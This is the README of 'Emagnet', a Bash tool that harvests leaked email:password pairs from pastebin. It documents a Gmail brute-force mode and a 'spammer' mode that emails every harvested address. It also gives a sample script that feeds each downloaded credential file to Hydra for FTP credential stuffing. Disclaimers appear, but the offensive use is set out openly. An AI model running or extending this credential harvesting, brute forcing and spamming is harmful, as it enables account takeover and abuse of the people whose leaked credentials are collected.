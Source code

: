    

## <p align="center">![Screenshot](https://nr1.nu/emagnet/previews/emagnet_oldmovi.gif)

## <p align="center"> _"I'll will find you, it's just a matter of time"_
<p align="center">

  <a href="https://github.com/wuseman/EMAGNET">
<img src="https://img.shields.io/github/languages/top/wuseman/emagnet.svg?color=magenta&label=Bash%2FShell">
  <a href="https://github.com/wuseman/EMAGNET/issues?q=is%3Aissue+is%3Aclosed">
    <img src="https://img.shields.io/github/issues-closed/wuseman/emagnet.svg?color=light&label=Closed%20Issues">
  
  <a href="https://github.com/wuseman/EMAGNET/issues">
    <img src="https://img.shields.io/github/issues-raw/wuseman/emagnet.svg?color=orange&label=Open%20Issues">
  
  
  
  <img src="https://img.shields.io/github/last-commit/wuseman/emagnet.svg?color=darkmagenta&label=Latest%20Commit">
  <a href="https://twitter.com/wuseman1">

 <img src="https://img.shields.io/website/https/nr1.nu.svg?down_color=darkred&down_message=DOWN&label=Nr1.nu%2Femagnet&up_message=UP">
    <img src="https://img.shields.io/github/license/wuseman/emagnet.svg?color=blue&label=License">
</a>
</p>

# NOTICE:
### If you have problems when downloading files with lynx remove parallel during download or please use elinks until I fix this:

    wget: Resolving    visible links... failed: Name or service not know  https://pastebin.com

#### Just copy and paste:

    sed -i 's/BROWSER=lynx/BROWSER=elinks/g' /etc/emagnet.conf
    

| Version            |  Released      | Status                            | Tested On                          |
| :----------------- | :------------- | :-------------------------------- | :----------------------------------|
| `3.0`              |  2019-06-19    | Under Active Development          | Linux - Windows - MacOS - Android  |
| `2.1`              |  2019-05-17    | Stable                            | Linux - Windows - MacOS - Android  |


### Desription

Emagnet is a very powerful tool for it's purpose wich is to capture email addresses and passwords from leaked databases uploaded on pastebin. It's almost impossible to find leaked passwords when they are out of list on pastebin.com. Either they have been deleted by pastebin's techs or the uploads is just one in the crowd. To be honest it's easier to find a needle in a haystack then find outdated uploads on pastebin with the data we want to collect. Brute force mode has been added in version 2.0. See emagnet in action [here](https://nr1.nu/emagnet/previews/emagnet_infous.gif)

### Emagnet v3.0 - Support for jumping between VPN servers

![Screenshot](https://nr1.nu/emagnet/previews/ezgif-2-c2de16f47d3c.gif)

### Emagnet with a simple script running beside emagnet: 
#### Tools used: inotifywait + Cr3dOv3r + emagnet

![Screenshot](https://nr1.nu/f/emagnet-third-party.gif)

### Script for using Hydra when emagnet is running:

       #!/bin/bash
       
       inotifywait -q -m -r -e create --format '%w%f' "/path/to/monitor" | while read FILES; do
       # Run-your-favorit-tool-here--read-files-by-$(cat $FILES)
       # Just an example usage for Hydra that can be used when you download uploads from pastebin: 
       hydra -C $FILES ftp://$(grep-a-ip-or-hostname-for-example)”    
       # For use my example in the video: (for hit enter when cr3d0v3r asking for password read: "manual yes") 
       cd /path/to/Cr3dOv3r;python -q emailaddress.com 
       done

### Get Started On Linux/MacOSX
 
    git clone https://github.com/wuseman/emagnet
    cd emagnet
    chmod +x emagnet*
    bash ./emagnet-setup.sh
    bash emagnet -e emagnet

* Normal mode without brute forcing: 

      ./emagnet -e emagnet

* Start brute force attack if there is any mail:password combinations found. If there is no mail:passwords found we just trying again as normal mode. (NOTICE: Support for GMAIL accounts only)
 
      ./emagnet -e bruteforce

* Download uploads from pastebin sorted by syntaxes, syntaxes is set by pastebin (https://pastebin.com/language)

      ./emagnet -e syntax

* Send an choosen email to all targets we have found, this require emagnet to run in another session.

      ./emagnet -e spammer

###  Get Started On Windows 10

Please visit my installation [wiki](https://github.com/wuseman/EMAGNET/wiki/Installation) for more info (includes a video)

### Wiki Sections:

- [About](https://github.com/wuseman/EMAGNET/wiki/ABOUT) - 
_How everything started._

- [Faq](https://github.com/wuseman/EMAGNET/wiki/FAQ) - 
_How to grab your visa card if it has been leaked. Also get answers why we not using TOR._

- [Installation](https://github.com/wuseman/EMAGNET/wiki/INSTALLATION) - 
_Video preview for how to get started on windows_

- [Tips & Tricks](https://github.com/wuseman/EMAGNET/wiki) - 
_How To Find your facebook credenticals, if it has been leaked._

### System requirements

- Bash     - Find more info about _bash_ [here](https://www.gnu.org/software/bash/)
- Parallel - Find more info about _parallel_ [here](https://www.gnu.org/software/parallel/)
- Wget     - Find more info about _wget_ [here](https://www.gnu.org/software/wget/)
- Curl     - Find more info about _curl_ [here](https://github.com/curl/curl)
- Lynx     - Find more info about _lynx_ [here](https://lynx.browser.org/)
- Elinks   - Find more info about _elinks_ [here](http://elinks.or.cz/)

## Changelog

[Versions changelog](CHANGELOG.md).


## Authors: 

* **wuseman <wuseman@nr1.nu\>** 

## License

This project is licensed under the GNU General Public License v3.0 - see the [LICENSE.md](LICENSE.md) file for details


### Contact

  If you have problems, questions, ideas or suggestions please contact me on the e-email under _Authors_ or you can chat with me for faster contact by visit freenode chat and type '/msg wuseman hi!' in the input bar and I will reply you ASAP I will see the message.
  
  Enter Freenode chat via your own client or use the web client by visit this ![page](https://webchat.freenode.net/)

### Haters Gonna Hate

If you are one of these who dislikes _EMAGNET_ and believe the program has been developed for a reason that would break the law then I am not interested in taking part of your opinions, keep them for _yourself_! Emagnet does **NOT** leak any data at all. _EMAGNET_ gathering data from PASTEBIN and that is the source for all files EMAGNET is downloading.

If you'r email AND password is in my video tutorials please change your password **_ASAP_** and contact PASTEBIN to request  a removal from the source. This is nothing i can be held responsible for. Pastebin contact formular can be found [here](https://pastebin.com/contact)
 
Be more careful with your private data - It's 2019, you **really** should know better how to keep your data private. 

ALL questions about this will be ignored and filtered as spam FYI. 

Feel free to read the history about emagnet [here](https://github.com/wuseman/EMAGNET/wiki/About) and how everything started about this project.

### Notice

Brute forcing any user(s) account that you do not own or have been granted permission to sign in on is **stricly** forbidden, in most countrys you will break the law so please don't use EMAGNET for any illegal purposes, emagnet has been developed for a a legal purpose to count data and statistics.

wuseman says: All my previews where a brute force attack is under controlling forms. If you have any questions about this then you are welcome to contact me.


_wuseman cannot be held as responsible for users actions regardless of what damage a user can achieve with the information/data emagnet might collect for any user(s). All users that  gathering information or data via emagnet is 100% responsible for their own actions, emagnet has been developed for a legal purpose._

####
#### Emagnet development has just started and is FAR away from complete, to be continued. 
####

